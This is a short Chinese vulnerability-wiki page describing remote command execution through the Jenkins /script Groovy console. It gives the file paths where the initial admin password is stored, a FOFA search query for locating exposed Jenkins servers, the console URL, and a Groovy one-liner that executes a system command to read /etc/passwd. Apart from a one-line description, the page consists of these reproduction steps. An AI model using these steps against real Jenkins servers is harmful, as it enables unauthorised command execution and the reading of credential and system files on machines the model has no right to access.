 ```yaml
---
title: Jenkins script 远程命令执行漏洞
---
```


# Jenkins script 远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

<a-checkbox checked>Jenkins</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

账号密码存在于：

```bash
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```bash
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```bash
println 'cat /etc/passwd'.execute().text
```

![image.png](/assets/PeiQi-Wiki/img/1629510961976-6518a8a9-cd7d-46b0-9bc5-67c07a1f9d7f.png)